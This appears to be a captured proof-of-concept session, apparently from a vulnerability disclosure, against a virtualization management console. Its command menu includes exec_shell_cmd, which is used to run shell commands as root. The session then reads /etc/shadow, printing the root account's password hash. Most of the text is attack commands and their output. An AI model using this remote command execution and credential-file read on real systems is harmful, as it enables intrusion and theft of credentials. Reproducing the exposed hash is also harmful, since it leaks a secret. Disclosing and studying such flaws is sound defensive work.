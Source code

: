 |-------------------------COMMAND---------------------------------------
<1>:cvm_version        <2>:cvm_monitor     <3>:ifconfig_list    <4>:list_all
<5>:get_sn             <6>:get_status      <7>:list_base        <8>:list_iso
<9>:list_temp          <10>:list_vms <11>:web_service_status<12>:list_instance
<13>:list_instance_name     <14>:run_instance_fast     <15>:release_instance
<16>:edit_image        <17>:edit_temp      <18>:ifconfig        <19>:dnsconfig
<20>:open_port         <21>:close_port     <22>:change_ftpuser_pwd
<23>:reset_ftpuser_pwd <24>:clone_image    <25>:create_base     <26>:del_base
<27>:del_iso           <28>:get_check    <29>:list_resource<30>:preload_image
<31>:rebase_image      <32>:rename_image <33>:list-preload    <34>:del_preload
<35>:del_image         <36>:del_temp     <37>:list_image      <38>:replace_iso
<39>:web_service       <40>:shutdown_instance         <41>:exec_shell_cmd
<42>:expand_image      <43>:copy_temp                 <44>:list_backup_temp
<45>:list_backup_temp_dir   <46>:del_backup_temp   <47>:del_backup_temp_dir
<48>:poweroff          <49>:reboot        <50>:add_vlan        <51>:del_vlan
<52>:list_vlan         <53>:quit          <0>:factory test
|-------------------------------------------------------------------------------

    41
    please input agrs
    ls
    ls ~
    <args><cmd>ls ~</cmd></args>
    exec_shell_cmd result:
    <?xml version="1.0" encoding="UTF-8"?>
    <return>
      <command>exec_shell_cmd</command>
      <output>anaconda-ks.cfg
    install.log
    install.log.syslog
    iptables.save
    ks-post1.log
    ks-post.log
    </output>
    </return>

please choose the command (input a number between 0-53):

- - - - - - 
    > whoami
    # root
    > cat /etc/shadow
    # root:$1$ib1ReZOT$/kwEfqJdhMIU/GF7HUJjs/:16665:0:99999:7::: 
    # bin:*:15980:0:99999:7::: 
    # daemon:*:15980:0:99999:7::: 
    # adm:*:15980:0:99999:7::: 
    # lp:*:15980:0:99999:7::: 
    # sync:*:15980:0:99999:7::: 
    # shutdown:*:15980:0:99999:7::: 
    # halt:*:15980:0:99999:7::: 
